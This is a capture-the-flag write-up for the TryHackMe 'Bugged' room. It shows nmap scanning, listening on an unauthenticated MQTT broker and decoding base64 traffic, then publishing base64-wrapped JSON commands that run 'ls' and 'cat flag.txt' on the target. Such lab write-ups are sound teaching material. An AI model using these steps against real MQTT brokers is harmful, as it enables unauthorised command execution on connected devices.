





# 📝 Writeup – Bugged (TryHackMe)

---

## ENUMERATION
Standard start — quick port sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Found ports: `22`, `1883`. Focused scan:

```bash
nmap -p 22,1883 -sC -sV -vv -oN scan.nmap <IP>
```



---

## PORT 1883 — MQTT basics (short)

If you haven’t dealt with MQTT before — it’s simple:

* **Broker**: central server that routes messages.
* **Clients**: devices/apps that either **publish** (send) or **subscribe** (receive) to topics.
* Topics are hierarchical strings like `home/living/temperature`.
* Wildcards:

  * `#` subscribes to all topics at and below that level (everything).
  * `+` is single-level wildcard.

Install the tools:

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

---

## SUBSCRIBE & LISTEN

Subscribe to everything to see traffic:

```bash
mosquitto_sub -h <IP> -p 1883 -t '#' -v
```

* `-t '#'` = subscribe to all topics
* `-v` verbose

Screenshot of listening:


You’ll get messages like `topic payload`. One payload looked like base64. Decode it:

```bash
echo 'BASE64STRING' | base64 -d
```

Decoded payloads revealed a client ID and two topics:

* publisher: `U4vy....CHg/pub`
* subscriber: `XD2r....g0E/sub`

Looks like the service publishes on `U4vy.../pub` and reads commands on `XD2.../sub`.

---

## TALKING TO THE BROKER (PUBLISH)

We can publish to the `.../sub` topic to make the service respond on `.../pub`.

Example test message (raw):

```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '{HELP}'
```     
    
If the service expects base64 or another wrapper, adjust accordingly. In my run, after decoding flows I learned the expected formats were something like ``base64({"id":"<id>", "cmd":"HELP, SYS or CMD", "arg":"<arg>"})``

After sending the correctly structured message (the challenge used base64-wrapped payloads in messages), I got this helpful reply:


Decoded it (example):

```bash
# If payload was base64
echo 'RECEIVED_BASE64' | base64 -d
```

---

## GETTING THE FLAG

I sent a `CMD` to run `ls` and then `cat flag.txt`. Example:
```bash
echo '{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd":"CMD", "arg":"ls"}' | base64
```
```bash
mosquitto_pub -h <IP> -p 1883 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m '<base64>'
```   

Response (base64 or raw) arrives on the `.../pub` topic. Decode and enjoy the flag:


---
## TL;DR (again, cause we love that)

Subscribe to `#`, decode base64 messages → figure the publish/sub topics → craft the correct `{CMD}` message → publish it → decode the response on the pub topic → flag. Simple IoT vibes, big results.

---
## Notes, corrections & tips

* MQTT default port is **1883** (unencrypted); authenticated/secure brokers may use TLS/8883.
* You may encounter base64 wrapping, JSON, or custom framing — always inspect decoded payloads carefully.
* If you get weird characters after base64 decode, try trimming non-base64 chars or re-check the exact payload (some services add noise).
* If the service requires a particular client ID or QoS, `mosquitto_pub` supports `-i <clientid>` and `-q <qos>`.

---

## References / Further reading

* A helpful writeup on MQTT and pentesting: [https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5](https://medium.com/@srkasthuri/exploring-mqtt-security-a-deep-dive-for-pentesters-ed24cd3452c5)
  (Useful background if you want to dig deeper into MQTT attack vectors.)

---

## Ethics & disclaimer

Do this only on lab machines or assets you have permission to test. Don’t be careless with devices that talk to real hardware — you can break things.

---
